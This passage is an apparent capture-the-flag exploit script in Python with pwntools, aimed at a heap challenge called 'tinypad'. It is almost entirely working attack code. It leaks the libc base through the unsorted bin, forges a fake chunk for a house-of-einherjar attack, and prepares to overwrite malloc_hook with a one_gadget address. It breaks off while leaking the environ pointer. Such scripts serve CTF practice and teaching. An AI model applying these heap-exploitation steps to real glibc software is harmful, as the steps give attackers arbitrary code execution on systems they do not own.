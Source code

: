 ```python
    # second idx1 will merge with idx0(unlink), and point to idx0
    # third idx1 will merge into top chunk
    # but cause unlink feture, the idx0's fd and bk won't change
    # so idx0 will leak the unsorted bin addr
    delete(3)
    p.recvuntil(' # CONTENT: ')
    data = p.recvuntil('\n', drop=True)
    unsorted_offset_arena = 8 + 10 * 8
    main_arena = u64(data.ljust(8, '\x00')) - unsorted_offset_arena
    libc_base = main_arena - main_arena_offset
    log.success('main arena addr: ' + hex(main_arena))
    log.success('libc base addr: ' + hex(libc_base))

    # 3. house of einherjar
    add(0x18, 'a' * 0x18)  # idx 0
    # we would like trigger house of einherjar at idx 1
    add(0x100, 'b' * 0xf8 + '\x11')  # idx 1
    add(0x100, 'c' * 0xf8)  # idx 2
    add(0x100, 'd' * 0xf8)  #idx 3

    # create a fake chunk in tinypad's 0x100 buffer, offset 0x20
    tinypad_addr = 0x602040
    fakechunk_addr = tinypad_addr + 0x20
    fakechunk_size = 0x101
    fakechunk = p64(0) + p64(fakechunk_size) + p64(fakechunk_addr) + p64(
        fakechunk_addr)
    edit(3, 'd' * 0x20 + fakechunk)

    # overwrite idx 1's prev_size and
    # set minaddr of size to '\x00'
    # idx 0's chunk size is 0x20
    diff = heap_base + 0x20 - fakechunk_addr
    log.info('diff between idx1 and fakechunk: ' + hex(diff))
    # '\0' padding caused by strcpy
    diff_strip = p64(diff).strip('\0')
    number_of_zeros = len(p64(diff)) - len(diff_strip)
    for i in range(number_of_zeros + 1):
        data = diff_strip.rjust(0x18 - i, 'f')
        edit(1, data)
    delete(2)
    p.recvuntil('\nDeleted.')

    # fix the fake chunk size, fd and bk
    # fd and bk must be unsorted bin
    edit(4, 'd' * 0x20 + p64(0) + p64(0x101) + p64(main_arena + 88) +
         p64(main_arena + 88))

    # 3. overwrite malloc_hook with one_gadget

    one_gadget_addr = libc_base + 0x45216
    environ_pointer = libc_base + libc.symbols['__environ']
    log.info('one gadget addr: ' + hex(one_gadget_addr))
    log.info('environ pointer addr: ' + hex(environ_pointer))
    #fake_malloc_chunk = main_arena - 60 + 9
    # set memo[0].size = 'a'*8,
    # set memo[0].content point to environ to leak environ addr
    fake_pad = 'f' * (0x100 - 0x20 - 0x10) + 'a' * 8 + p64(
        environ_pointer) + 'a' * 8 + p64(0x602148)
    # get a fake chunk
    add(0x100 - 8, fake_pad)  # idx 2
    #gdb.attach(p)

    # get environ addr
```